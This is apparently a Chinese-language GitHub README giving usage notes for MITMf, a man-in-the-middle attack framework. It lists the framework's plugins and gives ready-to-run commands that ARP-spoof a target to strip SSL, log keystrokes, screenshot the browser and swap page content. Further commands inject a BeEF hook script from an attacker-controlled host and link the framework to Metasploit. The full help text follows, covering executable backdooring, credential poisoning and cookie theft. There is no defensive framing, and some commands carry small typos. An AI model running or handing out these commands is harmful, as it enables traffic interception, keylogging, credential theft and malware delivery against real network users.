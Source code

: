 # MITMF-
记录使用MITMF的安装及使用过程
1. MITMf
github: https://github.com/byt3bl33d3r/MITMf
1.1. 基本功能
功能	描述
sslstrip	部分绕过HSTS,将https降级为http协议。默认是开启的状态
Filepwn	主要作用是当被欺骗对象尝试下载文件时，首先对文件进行分析，对可执行文件（PE、ELF）进行后门注入，然后再给到被欺骗对象
Cachekill	清空客户端的缓存缓冲池，这个在我们需要重新注入一段js时是很有用的。
Spoof	欺骗模块。当我们使用MITM功能攻击欺骗时绝对是不能缺少的。其主要包括对ARP、ICMP、DHCP进行流量重定向（三种模式不能同时使用）
BeEFAutorun	该模块可以使框架可以连接到BeEF，将MITM与浏览器渗透结合起来
Replace	可以对浏览内容进行替换，支持正则表达式。注意，这里模块默认情况下是强制刷新缓存缓冲池的，要想不改变缓冲内容，需要手动指定keep-cache参数
Inject	可以向被欺骗者的浏览内容中注入各种猥琐的东西，比如js，html，图片，电影。
Browser Profiler	枚举被欺骗机器的浏览器插件。对于前期的信息收集阶段还是很有用的。
JavaPwn	可以通过向被攻击机器中注入jar使得浏览内容被毒化，和metasploit联合可以直接渗透机器拿到shell
Javascript Keylogger	一个键盘记录js
App Cache Poison	app缓存投毒。对于网页应用程序进行毒化处理，然后进行随心所欲的攻击。是Krzysztof Kotowicz的补充模块。
Upsidedownternet	恶搞模块，图片旋转180度。
RedirectsBrowserProfiler	这个插件可以检测目标的浏览器类型，这将有助于识别漏洞
HTA Drive-By	注入一个假的更新通知，并提示客户下载一个HTA应用
AppCachePoison	执行HTML5的App-缓存中毒攻击
BrowserSniper	执行与外的最新浏览器插件在客户端上HTA Drive-by攻击
1.2. sample
嗅探SSL传输的数据包

-a参数表示对http和https的数据包都嗅探

python mitmf.py -i eth0 --hsts -a --spoof --arp --gateway 10.0.0.1 --target 10.0.0.18

目标浏览器截屏

python mitmf.py -i eth0 --spoof --arp --gateway 192.168.1.1 --target 192.168.1.100 --screen

恶搞功能: 它可以使目标浏览网页时，所有的图片都倒转 180度。

python mitmf.py --spoof --arp -i eth0 --gateway 192.168.1.1 --target 192.168.1.100 --upsidedownternet

键盘记录

python mitmf.py --spoof --arp -i eth0 --gateway 192.168.1.1 --target 192.168.1.100 --jskeylogger

替换图片

python mitmf.py -i eth0 --spoof --arp --gateway 192.168.1.1 --target 192.168.1.100 --imgrand --img-dir /root/MITMf/photos

替换

python mitmf.py -i eth0 --spoof --arp --gateway 192.168.1.1 --target 1192.168.1.100 --replace --search-str "百度" --replace-str "xxx"

2. with beef
运行 beef: cd /usr/share/beef-xss && ./beef

python mitmf.py --spoof --arp -i eth0 --gateway 192.168.1.1 --target 192.168.1.100 --inject -–js-url http://192.168.1.110:3000/hook.js

3. with metasploite
连通性设置：

$ msfconsole
msf>load msgrpc Pass=abc123
3.1. usage
usage: mitmf.py -i interface [mitmf options] [plugin name] [plugin options]

MITMf v0.9.8 - 'The Dark Side'

optional arguments:
  -h, --help            show this help message and exit
  -v, --version         show program's version number and exit

MITMf:
  Options for MITMf

  --log-level {debug,info}
                        Specify a log level [default: info]
  -i INTERFACE          Interface to listen on
  -c CONFIG_FILE        Specify config file to use
  -p, --preserve-cache  Don't kill client/server caching
  -r READ_PCAP, --read-pcap READ_PCAP
                        Parse specified pcap for credentials and exit
  -l PORT               Port to listen on (default 10000)
  -f, --favicon         Substitute a lock favicon on secure requests.
  -k, --killsessions    Kill sessions in progress.
  -F FILTER [FILTER ...], --filter FILTER [FILTER ...]
                        Filter to apply to incoming traffic

Inject:
  Inject arbitrary content into HTML content

  --inject              Load plugin 'Inject'
  --js-url JS_URL       URL of the JS to inject
  --js-payload JS_PAYLOAD
                        JS string to inject
  --js-file JS_FILE     File containing JS to inject
  --html-url HTML_URL   URL of the HTML to inject
  --html-payload HTML_PAYLOAD
                        HTML string to inject
  --html-file HTML_FILE
                        File containing HTML to inject
  --per-domain          Inject once per domain per client.
  --rate-limit RATE_LIMIT
                        Inject once every RATE_LIMIT seconds per client.
  --count-limit COUNT_LIMIT
                        Inject only COUNT_LIMIT times per client.
  --white-ips IP        Inject content ONLY for these ips (comma seperated)
  --black-ips IP        DO NOT inject content for these ips (comma seperated)
  --white-domains DOMAINS
                        Inject content ONLY for these domains (comma seperated)
  --black-domains DOMAINS
                        DO NOT inject content for these domains (comma seperated)

ScreenShotter:
  Uses HTML5 Canvas to render an accurate screenshot of a clients browser

  --screen              Load plugin 'ScreenShotter'
  --interval SECONDS    Interval at which screenshots will be taken (default 10 seconds)

Responder:
  Poison LLMNR, NBT-NS and MDNS requests

  --responder           Load plugin 'Responder'
  --analyze             Allows you to see NBT-NS, BROWSER, LLMNR requests without poisoning
  --wredir              Enables answers for netbios wredir suffix queries
  --nbtns               Enables answers for netbios domain suffix queries
  --fingerprint         Fingerprint hosts that issued an NBT-NS or LLMNR query
  --lm                  Force LM hashing downgrade for Windows XP/2003 and earlier
  --wpad                Start the WPAD rogue proxy server
  --forcewpadauth       Force NTLM/Basic authentication on wpad.dat file retrieval (might cause a login prompt)
  --basic               Return a Basic HTTP authentication. If not set, an NTLM authentication will be returned

ImageRandomizer:
  Replaces images with a random one from a specified directory

  --imgrand             Load plugin 'ImageRandomizer'
  --img-dir DIRECTORY   Directory with images

BrowserProfiler:
  Attempts to enumerate all browser plugins of connected clients

  --browserprofiler     Load plugin 'BrowserProfiler'

Spoof:
  Redirect/Modify traffic using ICMP, ARP, DHCP or DNS

  --spoof               Load plugin 'Spoof'
  --arp                 Redirect traffic using ARP spoofing
  --icmp                Redirect traffic using ICMP redirects
  --dhcp                Redirect traffic using DHCP offers
  --dns                 Proxy/Modify DNS queries
  --netmask NETMASK     The netmask of the network
  --shellshock PAYLOAD  Trigger the Shellshock vuln when spoofing DHCP, and execute specified command
  --gateway GATEWAY     Specify the gateway IP
  --gatewaymac GATEWAYMAC
                        Specify the gateway MAC [will auto resolve if ommited]
  --targets TARGETS     Specify host/s to poison [if ommited will default to subnet]
  --ignore IGNORE       Specify host/s not to poison
  --arpmode {rep,req}    ARP Spoofing mode: replies (rep) or requests (req) [default: rep]

HTA Drive-By:
  Performs HTA drive-by attacks on clients

  --hta                 Load plugin 'HTA Drive-By'
  --text TEXT           Text to display on notification bar
  --hta-app HTA_APP     Path to HTA application [defaults to config/hta_driveby/flash_setup.hta]

SMBAuth:
  Evoke SMB challenge-response auth attempts

  --smbauth             Load plugin 'SMBAuth'

BrowserSniper:
  Performs drive-by attacks on clients with out-of-date browser plugins

  --browsersniper       Load plugin 'BrowserSniper'

Replace:
  Replace arbitrary content in HTML content

  --replace             Load plugin 'Replace'

AppCachePoison:
  Performs App Cache Poisoning attacks

  --appoison            Load plugin 'AppCachePoison'

FilePwn:
  Backdoor executables being sent over http using bdfactory

  --filepwn             Load plugin 'FilePwn'

Upsidedownternet:
  Flips images 180 degrees

  --upsidedownternet    Load plugin 'Upsidedownternet'

SMBTrap:
  Exploits the SMBTrap vulnerability on connected clients

  --smbtrap             Load plugin 'SMBTrap'

Ferret-NG:
  Captures cookies and starts a proxy that will feed them to connected clients

  --ferretng            Load plugin 'Ferret-NG'
  --port PORT           Port to start Ferret-NG proxy on (default 10010)
  --load-cookies FILE   Load cookies from a log file

Captive Portal:
  Be a captive portal!

  --captive             Load plugin 'Captive Portal'
  --portalurl URL       Specify the URL where the portal is located, e.g. http://example.com.
  --portaldir LOCALDIR  Specify a local path containg the portal files served with a SimpleHTTPServer on a different port (see config).
  --use-dns             Whether we use dns spoofing to serve from a fancier portal URL captive.portal when used without options or portaldir. Requires DNS for "captive.portal" to resolve, e.g. via configured dns spoofing --dns.

JSKeylogger:
  Injects a javascript keylogger into clients webpages

  --jskeylogger         Load plugin 'JSKeylogger'

SSLstrip+:
  Enables SSLstrip+ for partial HSTS bypass

  --hsts                Load plugin 'SSLstrip+'

